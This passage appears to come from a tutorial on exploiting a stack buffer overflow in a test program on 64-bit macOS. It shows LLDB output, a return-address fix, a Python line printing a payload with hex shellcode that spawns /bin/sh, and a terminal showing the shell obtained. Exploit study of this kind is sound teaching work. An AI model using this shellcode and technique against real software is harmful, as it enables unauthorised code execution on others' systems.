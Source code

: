 ```
* thread #1: tid = 0x16b64e, 0x00007fff5fbff957, queue = 'com.apple.main-thread', stop reason = instruction step into
    frame #0: 0x00007fff5fbff957
->  0x7fff5fbff957: orq    $0x17, %r8
    0x7fff5fbff95b: xorl   %edi, %edi
    0x7fff5fbff95d: movq   %r8, %rax
    0x7fff5fbff960: syscall 
...

```

It starts to execute the code we provided. In LLDB, we will not get a shell because it prevents starting one, but we should be able to get one when running it outside of a debugger. We only need to make a small change to the input sequence becaude LLBD (or GDB on Linux) puts some things in memory, messing up the addredd locations. We first run it to find out what we need to change:

```
$ ./a.out test_gdb.txt 
received input GET AAAAAAAAAAAAAAAAAAAAAP??_?0x7fff5fbff9b3
Segmentation fault: 11
```

Giving a segfault, but more importantly the memory address we need. We compute 0x9b3 + 29 = 9D0 (for instance using Google), and modify the input:

```Python
print "GET " + "A"*21 + "\x00\x00\x7f\xff\x5f\xbf\xf9\xD0"[::-1] + "\x41\xb0\x02\x49\xc1\xe0\x18\x49\x83\xc8\x17\x31\xff\x4c\x89\xc0\x0f\x05\xeb\x12\x5f\x49\x83\xc0\x24\x4c\x89\xc0\x48\x31\xd2\x52\x57\x48\x89\xe6\x0f\x05\xe8\xe9\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
```

```
$ python test.py > test_osx.txt
$ ./a.out test_osx.txt
received input GET AAAAAAAAAAAAAAAAAAAAA???_?0x7fff5fbff9b3
sh-3.2$
```



See also https://dl.packetstormsecurity.net/papers/attack/64bit-overflow.pdf, which helped in understanding several encountered issues.



